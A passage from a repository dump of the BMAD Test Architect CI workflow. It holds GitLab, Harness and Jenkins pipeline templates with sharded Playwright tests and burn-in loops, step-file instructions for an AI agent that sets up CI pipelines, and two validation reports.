#   BROWSER_CACHE_PATH - browser cache path (frontend/fullstack only; omit for backend)

stages:
  - lint
  - test
  - burn-in
  - report

variables:
  # Disable git depth for accurate change detection
  GIT_DEPTH: 0
  # Use npm ci for faster, deterministic installs
  npm_config_cache: "$CI_PROJECT_DIR/.npm"
  # Playwright browser cache
  PLAYWRIGHT_BROWSERS_PATH: "$CI_PROJECT_DIR/.cache/ms-playwright"
  # Default Node version when .nvmrc is missing
  DEFAULT_NODE_VERSION: "24"

# Caching configuration
cache:
  key:
    files:
      - package-lock.json
  paths:
    - .npm/
    - .cache/ms-playwright/
    - node_modules/

# Lint stage - Code quality checks
lint:
  stage: lint
  image: node:$DEFAULT_NODE_VERSION
  before_script:
    - |
      NODE_VERSION=$(cat .nvmrc 2>/dev/null || echo "$DEFAULT_NODE_VERSION")
      echo "Using Node $NODE_VERSION"
      npm install -g n
      n "$NODE_VERSION"
      node -v
    - npm ci # Replace with INSTALL_CMD
  script:
    - npm run lint # Replace with LINT_CMD
  timeout: 5 minutes

# Test stage - Parallel execution with sharding
.test-template: &test-template
  stage: test
  image: node:$DEFAULT_NODE_VERSION
  needs:
    - lint
  before_script:
    - |
      NODE_VERSION=$(cat .nvmrc 2>/dev/null || echo "$DEFAULT_NODE_VERSION")
      echo "Using Node $NODE_VERSION"
      npm install -g n
      n "$NODE_VERSION"
      node -v
    - npm ci # Replace with INSTALL_CMD
    - npx playwright install --with-deps chromium # Replace with BROWSER_INSTALL; remove for backend-only
  artifacts:
    when: on_failure
    paths:
      - test-results/
      - playwright-report/
    expire_in: 30 days
  timeout: 30 minutes

test:shard-1:
  <<: *test-template
  script:
    - npm run test:e2e -- --shard=1/4 # Replace with TEST_CMD + shard args

test:shard-2:
  <<: *test-template
  script:
    - npm run test:e2e -- --shard=2/4 # Replace with TEST_CMD + shard args

test:shard-3:
  <<: *test-template
  script:
    - npm run test:e2e -- --shard=3/4 # Replace with TEST_CMD + shard args

test:shard-4:
  <<: *test-template
  script:
    - npm run test:e2e -- --shard=4/4 # Replace with TEST_CMD + shard args

# Burn-in stage - Flaky test detection
burn-in:
  stage: burn-in
  image: node:$DEFAULT_NODE_VERSION
  needs:
    - test:shard-1
    - test:shard-2
    - test:shard-3
    - test:shard-4
  # Only run burn-in on merge requests to main/develop or on schedule
  rules:
    - if: '$CI_PIPELINE_SOURCE == "merge_request_event"'
    - if: '$CI_PIPELINE_SOURCE == "schedule"'
  before_script:
    - |
      NODE_VERSION=$(cat .nvmrc 2>/dev/null || echo "$DEFAULT_NODE_VERSION")
      echo "Using Node $NODE_VERSION"
      npm install -g n
      n "$NODE_VERSION"
      node -v
    - npm ci # Replace with INSTALL_CMD
    - npx playwright install --with-deps chromium # Replace with BROWSER_INSTALL; remove for backend-only
  # Note: Burn-in targets UI flakiness. For backend-only stacks, remove this job entirely.
  script:
    - |
      echo "🔥 Starting burn-in loop - detecting flaky tests"
      for i in {1..10}; do
        echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
        echo "🔥 Burn-in iteration $i/10"
        echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
        npm run test:e2e || exit 1  # Replace with TEST_CMD
      done
      echo "✅ Burn-in complete - no flaky tests detected"
  artifacts:
    when: on_failure
    paths:
      - test-results/
      - playwright-report/
    expire_in: 30 days
  timeout: 60 minutes

# Report stage - Aggregate results
report:
  stage: report
  image: alpine:latest
  needs:
    - test:shard-1
    - test:shard-2
    - test:shard-3
    - test:shard-4
    - burn-in
  when: always
  script:
    - |
      echo "## Test Execution Summary"
      echo ""
      echo "- Pipeline: $CI_PIPELINE_ID"
      echo "- Shards: 4"
      echo "- Branch: $CI_COMMIT_REF_NAME"
      echo ""
      echo "View detailed results in job artifacts"
```

## File: `src/workflows/testarch/bmad-testarch-ci/harness-pipeline-template.yaml`
```yaml
# Harness CI Pipeline for Test Execution
# Generated by BMad TEA Agent - Test Architect Module
# Optimized for: Parallel Sharding, Burn-In Loop
# Stack: {test_stack_type} | Framework: {test_framework}
#
# Variables to customize per project:
#   INSTALL_CMD       - dependency install command (e.g., npm ci, pnpm install --frozen-lockfile)
#   TEST_CMD          - main test command (e.g., npm run test:e2e, npm test, npx vitest)
#   LINT_CMD          - lint command (e.g., npm run lint)
#   BROWSER_INSTALL   - browser install command (frontend/fullstack only; omit for backend)

pipeline:
  name: Test Pipeline
  identifier: test_pipeline
  projectIdentifier: default
  orgIdentifier: default
  stages:
    # Lint stage - Code quality checks
    - stage:
        name: Lint
        identifier: lint
        type: CI
        spec:
          cloneCodebase: true
          infrastructure:
            type: KubernetesDirect
            spec:
              connectorRef: account.harnessImage
              namespace: default
          execution:
            steps:
              - step:
                  type: Run
                  name: Install dependencies
                  identifier: install
                  spec:
                    connectorRef: account.harnessImage
                    image: node:24
                    shell: Sh
                    command: npm ci # Replace with INSTALL_CMD

              - step:
                  type: Run
                  name: Run linter
                  identifier: lint
                  spec:
                    connectorRef: account.harnessImage
                    image: node:24
                    shell: Sh
                    command: npm run lint # Replace with LINT_CMD

    # Test stage - Parallel execution with sharding
    - stage:
        name: Test
        identifier: test
        type: CI
        spec:
          cloneCodebase: true
          infrastructure:
            type: KubernetesDirect
            spec:
              connectorRef: account.harnessImage
              namespace: default
          execution:
            steps:
              - step:
                  type: Run
                  name: Install dependencies
                  identifier: install
                  spec:
                    connectorRef: account.harnessImage
                    image: node:24
                    shell: Sh
                    command: npm ci # Replace with INSTALL_CMD

              # Frontend/Fullstack only — remove this step for backend-only stacks
              - step:
                  type: Run
                  name: Install browsers
                  identifier: browsers
                  spec:
                    connectorRef: account.harnessImage
                    image: mcr.microsoft.com/playwright:v1.50.0-noble
                    shell: Sh
                    command: npx playwright install --with-deps chromium # Replace with BROWSER_INSTALL

              - parallel:
                  - step:
                      type: Run
                      name: Test Shard 1
                      identifier: shard_1
                      spec:
                        connectorRef: account.harnessImage
                        image: mcr.microsoft.com/playwright:v1.50.0-noble
                        shell: Sh
                        command: npm run test:e2e -- --shard=1/4 # Replace with TEST_CMD + shard args
                  - step:
                      type: Run
                      name: Test Shard 2
                      identifier: shard_2
                      spec:
                        connectorRef: account.harnessImage
                        image: mcr.microsoft.com/playwright:v1.50.0-noble
                        shell: Sh
                        command: npm run test:e2e -- --shard=2/4 # Replace with TEST_CMD + shard args
                  - step:
                      type: Run
                      name: Test Shard 3
                      identifier: shard_3
                      spec:
                        connectorRef: account.harnessImage
                        image: mcr.microsoft.com/playwright:v1.50.0-noble
                        shell: Sh
                        command: npm run test:e2e -- --shard=3/4 # Replace with TEST_CMD + shard args
                  - step:
                      type: Run
                      name: Test Shard 4
                      identifier: shard_4
                      spec:
                        connectorRef: account.harnessImage
                        image: mcr.microsoft.com/playwright:v1.50.0-noble
                        shell: Sh
                        command: npm run test:e2e -- --shard=4/4 # Replace with TEST_CMD + shard args

    # Burn-in stage - Flaky test detection
    # Note: Burn-in targets UI flakiness. For backend-only stacks, remove this stage entirely.
    - stage:
        name: Burn-In
        identifier: burn_in
        type: CI
        when:
          condition: <+pipeline.triggerType> == "WEBHOOK" || <+pipeline.triggerType> == "SCHEDULER"
        spec:
          cloneCodebase: true
          infrastructure:
            type: KubernetesDirect
            spec:
              connectorRef: account.harnessImage
              namespace: default
          execution:
            steps:
              - step:
                  type: Run
                  name: Install and burn-in
                  identifier: burn_in_loop
                  spec:
                    connectorRef: account.harnessImage
                    image: mcr.microsoft.com/playwright:v1.50.0-noble
                    shell: Sh
                    command: |
                      npm ci
                      npx playwright install --with-deps chromium
                      echo "Starting burn-in loop - detecting flaky tests"
                      for i in $(seq 1 10); do
                        echo "Burn-in iteration $i/10"
                        npm run test:e2e || exit 1
                      done
                      echo "Burn-in complete - no flaky tests detected"
                    # Replace npm ci with INSTALL_CMD, npm run test:e2e with TEST_CMD
```

## File: `src/workflows/testarch/bmad-testarch-ci/instructions.md`
```markdown
<!-- Powered by BMAD-CORE™ -->

# CI/CD Pipeline Setup

**Workflow ID**: `_bmad/tea/testarch/bmad-testarch-ci`
**Version**: 5.0 (Step-File Architecture)

---

## Overview

Scaffold a production-ready CI/CD quality pipeline with test execution, burn-in loops for flaky detection, parallel sharding, artifact collection, and notifications.

---

## WORKFLOW ARCHITECTURE

This workflow uses **step-file architecture**:

- **Micro-file Design**: Each step is self-contained
- **JIT Loading**: Only the current step file is in memory
- **Sequential Enforcement**: Execute steps in order

---

## INITIALIZATION SEQUENCE

### 1. Configuration Loading

From `workflow.yaml`, resolve:

- `config_source`, `test_artifacts`, `user_name`, `communication_language`, `document_output_language`, `date`
- `ci_platform`, `test_dir`

### 2. First Step

Load, read completely, and execute:
`./steps-c/step-01-preflight.md`

### 3. Resume Support

If the user selects **Resume** mode, load, read completely, and execute:
`./steps-c/step-01b-resume.md`

This checks the output document for progress tracking frontmatter and routes to the next incomplete step.
```

## File: `src/workflows/testarch/bmad-testarch-ci/jenkins-pipeline-template.groovy`
```
// Jenkinsfile CI/CD Pipeline for Test Execution
// Generated by BMad TEA Agent - Test Architect Module
// Optimized for: Parallel Sharding, Burn-In Loop
// Stack: {test_stack_type} | Framework: {test_framework}
//
// Variables to customize per project:
//   INSTALL_CMD       - dependency install command (e.g., npm ci, pnpm install --frozen-lockfile)
//   TEST_CMD          - main test command (e.g., npm run test:e2e, npm test, npx vitest)
//   LINT_CMD          - lint command (e.g., npm run lint)
//   BROWSER_INSTALL   - browser install command (frontend/fullstack only; omit for backend)
//
// Node.js version management — choose one:
//   Option A (recommended): Configure NodeJS Plugin in Jenkins Global Tool Configuration,
//     then add to pipeline:  tools { nodejs 'NodeJS-24' }
//   Option B: Use nvm (pre-installed on agent) — this template uses nvm as the default
//   Option C: Use a Docker agent — agent { docker { image 'node:24' } }

pipeline {
    agent any

    environment {
        CI = 'true'
    }

    options {
        timeout(time: 45, unit: 'MINUTES')
        disableConcurrentBuilds()
    }

    stages {
        stage('Checkout') {
            steps {
                checkout scm
            }
        }

        stage('Install') {
            steps {
                // Detect and apply Node.js version from .nvmrc (falls back to v24)
                // If using NodeJS Plugin instead, remove this block and add: tools { nodejs 'NodeJS-24' }
                sh '''
                    export NVM_DIR="$HOME/.nvm"
                    [ -s "$NVM_DIR/nvm.sh" ] && . "$NVM_DIR/nvm.sh"
                    NODE_VERSION=$(cat .nvmrc 2>/dev/null || echo "24")
                    nvm install "$NODE_VERSION" 2>/dev/null || true
                    nvm use "$NODE_VERSION" 2>/dev/null || true
                    node --version
                    npm ci
                ''' // Replace npm ci with INSTALL_CMD
                // Stash installed dependencies so parallel shards can restore them
                stash includes: 'node_modules/**', name: 'deps'
            }
        }

        stage('Lint') {
            steps {
                sh 'npm run lint' // Replace with LINT_CMD
            }
        }

        // Test stage - Parallel execution with sharding
        // Each shard restores dependencies via unstash for workspace safety
        stage('Test') {
            parallel {
                stage('Shard 1') {
                    steps {
                        unstash 'deps'
                        // Frontend/Fullstack only — remove browser install for backend-only stacks
                        sh 'npx playwright install --with-deps chromium' // Replace with BROWSER_INSTALL
                        sh 'npm run test:e2e -- --shard=1/4' // Replace with TEST_CMD + shard args
                    }
                }
                stage('Shard 2') {
                    steps {
                        unstash 'deps'
                        sh 'npx playwright install --with-deps chromium' // Replace with BROWSER_INSTALL
                        sh 'npm run test:e2e -- --shard=2/4' // Replace with TEST_CMD + shard args
                    }
                }
                stage('Shard 3') {
                    steps {
                        unstash 'deps'
                        sh 'npx playwright install --with-deps chromium' // Replace with BROWSER_INSTALL
                        sh 'npm run test:e2e -- --shard=3/4' // Replace with TEST_CMD + shard args
                    }
                }
                stage('Shard 4') {
                    steps {
                        unstash 'deps'
                        sh 'npx playwright install --with-deps chromium' // Replace with BROWSER_INSTALL
                        sh 'npm run test:e2e -- --shard=4/4' // Replace with TEST_CMD + shard args
                    }
                }
            }
        }

        // Burn-in stage - Flaky test detection
        // Note: Burn-in targets UI flakiness. For backend-only stacks, remove this stage entirely.
        stage('Burn-In') {
            when {
                anyOf {
                    changeRequest()
                    triggeredBy 'TimerTrigger'
                }
            }
            steps {
                sh '''
                    echo "Starting burn-in loop - detecting flaky tests"
                    for i in $(seq 1 10); do
                        echo "Burn-in iteration $i/10"
                        npm run test:e2e || exit 1
                    done
                    echo "Burn-in complete - no flaky tests detected"
                ''' // Replace npm run test:e2e with TEST_CMD
            }
        }
    }

    post {
        always {
            // Archive test results and reports
            archiveArtifacts artifacts: 'test-results/**,playwright-report/**', allowEmptyArchive: true
            junit testResults: 'test-results/**/*.xml', allowEmptyResults: true
        }
        failure {
            echo 'Pipeline failed - check test results and artifacts'
        }
    }
}
```

## File: `src/workflows/testarch/bmad-testarch-ci/validation-report-20260127-095021.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-ci
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-ci
validationStatus: COMPLETE
completionDate: 2026-01-27 10:03:10
---

# Validation Report: testarch-ci

**Validation Started:** 2026-01-27 09:50:21
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 7

**Step File Sizes:**

- steps-c/step-01-preflight.md: 87 lines [GOOD]
- steps-c/step-02-generate-pipeline.md: 75 lines [GOOD]
- steps-c/step-03-configure-quality-gates.md: 67 lines [GOOD]
- steps-c/step-04-validate-and-summary.md: 60 lines [GOOD]
- steps-e/step-01-assess.md: 51 lines [GOOD]
- steps-e/step-02-apply-edit.md: 46 lines [GOOD]
- steps-v/step-01-validate.md: 53 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

- No {project-root} hardcoded paths detected in body
- No dead relative links detected

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- Last step steps-v/step-01-validate.md has no nextStepFile (final step OK)
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- No templates found in workflow root
- Steps with outputFile in frontmatter:
  - steps-c/step-02-generate-pipeline.md
  - steps-v/step-01-validate.md

## Validation Design Check

- checklist.md present: YES
- Validation steps folder (steps-v) present: YES

## Instruction Style Check

- All steps include STEP GOAL, MANDATORY EXECUTION RULES, EXECUTION PROTOCOLS, CONTEXT BOUNDARIES, and SUCCESS/FAILURE metrics

## Summary

- Validation completed: 2026-01-27 10:03:10
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-ci/validation-report-20260127-102401.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-ci
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-ci
validationStatus: COMPLETE
completionDate: 2026-01-27 10:24:01
---

# Validation Report: testarch-ci

**Validation Started:** 2026-01-27 10:24:01
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 7

**Step File Sizes:**

- steps-c/step-01-preflight.md: 86 lines [GOOD]
- steps-c/step-02-generate-pipeline.md: 74 lines [GOOD]
- steps-c/step-03-configure-quality-gates.md: 66 lines [GOOD]
- steps-c/step-04-validate-and-summary.md: 59 lines [GOOD]
- steps-e/step-01-assess.md: 50 lines [GOOD]
- steps-e/step-02-apply-edit.md: 45 lines [GOOD]
- steps-v/step-01-validate.md: 52 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

### Config Variables (Exceptions)

Standard BMAD config variables treated as valid exceptions: bmb_creations_output_folder, communication_language, document_output_language, output_folder, planning_artifacts, project-root, project_name, test_artifacts, user_name

- No {project-root} hardcoded paths detected in body

- No dead relative links detected

- No module path assumptions detected

**Status:** ✅ PASS - No critical violations

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- steps-c/step-01-preflight.md: Init [PASS]
- steps-c/step-02-generate-pipeline.md: Middle [PASS]
- steps-c/step-03-configure-quality-gates.md: Middle [PASS]
- steps-c/step-04-validate-and-summary.md: Final [PASS]
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: NONE
- Steps with outputFile in frontmatter:
  - steps-c/step-02-generate-pipeline.md
  - steps-v/step-01-validate.md
- checklist.md present: YES

## Validation Design Check

- Validation steps folder (steps-v) present: YES
- Validation step(s) present: step-01-validate.md
- Validation steps reference checklist data and auto-proceed

## Instruction Style Check

- Instruction style: Prescriptive (appropriate for TEA quality/compliance workflows)
- Steps emphasize mandatory sequence, explicit success/failure metrics, and risk-based guidance

## Collaborative Experience Check

- Overall facilitation quality: GOOD
- Steps use progressive prompts and clear role reinforcement; no laundry-list interrogation detected
- Flow progression is clear and aligned to workflow goals

## Subagent Optimization Opportunities

- No high-priority subagent optimizations identified; workflow already uses step-file architecture
- Pattern 1 (grep/regex): N/A for most steps
- Pattern 2 (per-file analysis): already aligned to validation structure
- Pattern 3 (data ops): minimal data file loads
- Pattern 4 (parallel): optional for validation only

## Cohesive Review

- Overall assessment: GOOD
- Flow is linear, goals are clear, and outputs map to TEA artifacts
- Voice and tone consistent with Test Architect persona
- Recommendation: READY (minor refinements optional)

## Plan Quality Validation

- Plan file present: workflow-plan.md
- Planned steps found: 7 (all implemented)
- Plan implementation status: Fully Implemented

## Summary

- Validation completed: 2026-01-27 10:24:01
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-ci/workflow-plan.md`
```markdown
    # Workflow Plan: testarch-ci

    ## Create Mode (steps-c)
    - step-01-preflight.md

- step-02-generate-pipeline.md
- step-03-configure-quality-gates.md
- step-04-validate-and-summary.md

  ## Validate Mode (steps-v)
  - step-01-validate.md

  ## Edit Mode (steps-e)
  - step-01-assess.md
  - step-02-apply-edit.md

  ## Outputs
  - CI config (e.g., {project-root}/.github/workflows/test.yml)

- Pipeline guidance and artifacts configuration
```

## File: `src/workflows/testarch/bmad-testarch-ci/workflow.md`
```markdown
---
name: bmad-testarch-ci
description: Scaffold CI/CD quality pipeline with test execution. Use when user says 'lets setup CI pipeline' or 'I want to create quality gates'
web_bundle: true
---

# CI/CD Pipeline Setup

**Goal:** Scaffold CI/CD quality pipeline with test execution, burn-in loops, and artifact collection

**Role:** You are the Master Test Architect.

---

## WORKFLOW ARCHITECTURE

This workflow uses **tri-modal step-file architecture**:

- **Create mode (steps-c/)**: primary execution flow
- **Validate mode (steps-v/)**: validation against checklist
- **Edit mode (steps-e/)**: revise existing outputs

---

## INITIALIZATION SEQUENCE

### 1. Mode Determination

"Welcome to the workflow. What would you like to do?"

- **[C] Create** — Run the workflow
- **[R] Resume** — Resume an interrupted workflow
- **[V] Validate** — Validate existing outputs
- **[E] Edit** — Edit existing outputs

### 2. Route to First Step

- **If C:** Load `steps-c/step-01-preflight.md`
- **If R:** Load `steps-c/step-01b-resume.md`
- **If V:** Load `steps-v/step-01-validate.md`
- **If E:** Load `steps-e/step-01-assess.md`
```

## File: `src/workflows/testarch/bmad-testarch-ci/workflow.yaml`
```yaml
# Test Architect workflow: bmad-testarch-ci
name: bmad-testarch-ci
# prettier-ignore
description: 'Scaffold CI/CD quality pipeline with test execution. Use when the user says "lets setup CI pipeline" or "I want to create quality gates"'

# Critical variables from config
config_source: "{project-root}/_bmad/tea/config.yaml"
output_folder: "{config_source}:output_folder"
test_artifacts: "{config_source}:test_artifacts"
user_name: "{config_source}:user_name"
communication_language: "{config_source}:communication_language"
document_output_language: "{config_source}:document_output_language"
date: system-generated

# Workflow components
installed_path: "."
instructions: "./instructions.md"
validation: "./checklist.md"

# Variables and inputs
variables:
  ci_platform: "auto" # auto, github-actions, gitlab-ci, circle-ci, jenkins, azure-devops, harness - user can override
  test_dir: "{project-root}/tests" # Root test directory
  test_stack_type: "auto" # auto, frontend, backend, fullstack - detected or user override
  test_framework: "auto" # auto, playwright, cypress, jest, vitest - detected or user override

# Output configuration (resolved dynamically based on ci_platform detection)
default_output_file: "{project-root}/.github/workflows/test.yml" # GitHub Actions default; overridden per platform

# Required tools
required_tools:
  - read_file # Read .nvmrc, package.json, framework config
  - write_file # Create CI config, scripts, documentation
  - create_directory # Create .github/workflows/ or .gitlab-ci/ directories
  - list_files # Detect existing CI configuration
  - search_repo # Find test files for selective testing

tags:
  - qa
  - ci-cd
  - test-architect
  - pipeline
  - automation

execution_hints:
  interactive: false # Minimize prompts, auto-detect when possible
  autonomous: true # Proceed without user input unless blocked
  iterative: true
```

## File: `src/workflows/testarch/bmad-testarch-ci/steps-c/step-01-preflight.md`
```markdown
---
name: 'step-01-preflight'
description: 'Verify prerequisites and detect CI platform'
nextStepFile: './step-02-generate-pipeline.md'
outputFile: '{test_artifacts}/ci-pipeline-progress.md'
---

# Step 1: Preflight Checks

## STEP GOAL

Verify CI prerequisites and determine target CI platform.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🚫 Halt if requirements fail

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Verify Git Repository

- `.git/` exists
- Remote configured (if available)

If missing: **HALT** with "Git repository required for CI/CD setup."

---

## 2. Detect Test Stack Type

Determine the project's test stack type (`test_stack_type`) using the following algorithm:

1. If `test_stack_type` is explicitly set in config (not `"auto"`), use that value.
2. Otherwise, auto-detect by scanning project manifests:
   - **Frontend indicators**: `playwright.config.*`, `cypress.config.*`, `vite.config.*`, `next.config.*`, `src/components/`, `src/pages/`, `src/app/`
   - **Backend indicators**: `pyproject.toml`, `pom.xml`/`build.gradle`, `go.mod`, `*.csproj`/`*.sln`, `Gemfile`, `Cargo.toml`, `jest.config.*`, `vitest.config.*`, `src/routes/`, `src/controllers/`, `src/api/`, `Dockerfile`, `serverless.yml`
   - **Both present** → `fullstack`
   - **Only frontend** → `frontend`
   - **Only backend** → `backend`
   - **Cannot determine** → default to `fullstack` and note assumption

Record detected `test_stack_type` in step output.

---

## 3. Verify Test Framework

- Check for framework configuration based on detected stack:
  - **Frontend/Fullstack**: `playwright.config.*` or `cypress.config.*` exists
  - **Backend (Node.js)**: `jest.config.*` or `vitest.config.*` or test scripts in `package.json`
  - **Backend (Python)**: `pyproject.toml` with `[tool.pytest]` or `pytest.ini` or `setup.cfg` with pytest config
  - **Backend (Java/Kotlin)**: `pom.xml` with surefire/failsafe plugins or `build.gradle` with test task
  - **Backend (Go)**: `*_test.go` files present (Go convention — no config file needed)
  - **Backend (C#/.NET)**: `*.csproj` with xUnit/NUnit/MSTest references
  - **Backend (Ruby)**: `Gemfile` with rspec or `.rspec` config file
- If `test_framework` is `"auto"`, detect from config files and project manifests found
- Verify test dependencies are installed (language-appropriate package manager)

If missing: **HALT** with "Run `framework` workflow first."

---

## 4. Ensure Tests Pass Locally

- Run the main test command based on detected stack and framework:
  - **Node.js**: `npm test` or `npm run test:e2e`
  - **Python**: `pytest` or `python -m pytest`
  - **Java**: `mvn test` or `gradle test`
  - **Go**: `go test ./...`
  - **C#/.NET**: `dotnet test`
  - **Ruby**: `bundle exec rspec`
- If failing: **HALT** and request fixes before CI setup

---

## 5. Detect CI Platform

- If `ci_platform` is explicitly set in config (not `"auto"`), use that value.
- Otherwise, scan for existing CI configuration files:
  - `.github/workflows/*.yml` → `github-actions`
  - `.gitlab-ci.yml` → `gitlab-ci`
  - `Jenkinsfile` → `jenkins`
  - `azure-pipelines.yml` → `azure-devops`
  - `.harness/*.yaml` → `harness`
  - `.circleci/config.yml` → `circle-ci`
- If found, ask whether to update or replace
- If not found, infer from git remote (github.com → `github-actions`, gitlab.com → `gitlab-ci`)
- If still unresolved, default to `github-actions`

Record detected `ci_platform` in step output.

---

## 6. Read Environment Context

- Read environment context based on detected stack:
  - **Node.js**: Read `.nvmrc` if present (default to Node 24+ LTS if missing); read `package.json` for dependency caching strategy
  - **Python**: Read `.python-version` or `pyproject.toml` for Python version; note `pip`/`poetry`/`pipenv` for caching
  - **Java**: Read `pom.xml`/`build.gradle` for Java version; note Maven/Gradle for caching
  - **Go**: Read `go.mod` for Go version; note Go module cache path
  - **C#/.NET**: Read `*.csproj`/`global.json` for .NET SDK version; note NuGet cache
  - **Ruby**: Read `.ruby-version` or `Gemfile` for Ruby version; note Bundler cache

---

### 7. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-01-preflight']
  lastStep: 'step-01-preflight'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-01-preflight'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-01-preflight'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-ci/steps-c/step-01b-resume.md`
```markdown
---
name: 'step-01b-resume'
description: 'Resume interrupted workflow from last completed step'
outputFile: '{test_artifacts}/ci-pipeline-progress.md'
---

# Step 1b: Resume Workflow

## STEP GOAL

Resume an interrupted workflow by loading the existing progress document, displaying progress, verifying previously created artifacts, and routing to the next incomplete step.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: Output document with progress frontmatter
- Focus: Load progress and route to next step
- Limits: Do not re-execute completed steps
- Dependencies: Output document must exist from a previous run

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

### 1. Load Output Document

Read `{outputFile}` and parse YAML frontmatter for:

- `stepsCompleted` — array of completed step names
- `lastStep` — last completed step name
- `lastSaved` — timestamp of last save

**If `{outputFile}` does not exist**, display:

"⚠️ **No previous progress found.** There is no output document to resume from. Please use **[C] Create** to start a fresh workflow run."

**THEN:** Halt. Do not proceed.

---

### 2. Verify Previously Created Artifacts

Since this is a file-creation workflow, verify that artifacts from completed steps still exist on disk:

- If `step-02-generate-pipeline` is in `stepsCompleted`, check that the pipeline config file exists (e.g., `.github/workflows/test.yml` or equivalent)
- If any expected artifact is missing, warn the user and suggest re-running from the step that creates it

---

### 3. Display Progress Dashboard

Display:

"📋 **Workflow Resume — CI/CD Pipeline Setup**

**Last saved:** {lastSaved}
**Steps completed:** {stepsCompleted.length} of 4

1. Preflight Checks (step-01-preflight) — {✅ if in stepsCompleted, ⬜ otherwise}
2. Generate Pipeline (step-02-generate-pipeline) — {✅ if in stepsCompleted, ⬜ otherwise}
3. Configure Quality Gates (step-03-configure-quality-gates) — {✅ if in stepsCompleted, ⬜ otherwise}
4. Validate & Summary (step-04-validate-and-summary) — {✅ if in stepsCompleted, ⬜ otherwise}"

---

### 4. Route to Next Step

Based on `lastStep`, load the next incomplete step:

- `'step-01-preflight'` → Load `./step-02-generate-pipeline.md`
- `'step-02-generate-pipeline'` → Load `./step-03-configure-quality-gates.md`
- `'step-03-configure-quality-gates'` → Load `./step-04-validate-and-summary.md`
- `'step-04-validate-and-summary'` → **Workflow already complete.** Display: "✅ **All steps completed.** Use **[V] Validate** to review outputs or **[E] Edit** to make revisions." Then halt.

**If `lastStep` does not match any value above**, display: "⚠️ **Unknown progress state** (`lastStep`: {lastStep}). Please use **[C] Create** to start fresh." Then halt.

**Otherwise**, load the identified step file, read completely, and execute.

The existing content in `{outputFile}` provides context from previously completed steps. Use it as reference for remaining steps.

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Output document loaded and parsed correctly
- Previously created artifacts verified
- Progress dashboard displayed accurately
- Routed to correct next step

### ❌ SYSTEM FAILURE:

- Not loading output document
- Incorrect progress display
- Routing to wrong step
- Re-executing completed steps

**Master Rule:** Resume MUST route to the exact next incomplete step. Never re-execute completed steps.
```

## File: `src/workflows/testarch/bmad-testarch-ci/steps-c/step-02-generate-pipeline.md`
```markdown
---
name: 'step-02-generate-pipeline'
description: 'Generate CI pipeline configuration with adaptive orchestration (agent-team, subagent, or sequential)'
nextStepFile: './step-03-configure-quality-gates.md'
knowledgeIndex: '{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv'
outputFile: '{test_artifacts}/ci-pipeline-progress.md'
---

# Step 2: Generate CI Pipeline

## STEP GOAL

Create platform-specific CI configuration with test execution, sharding, burn-in, and artifacts.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Resolve execution mode from explicit user request first, then config
- ✅ Apply fallback rules deterministically when requested mode is unsupported

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

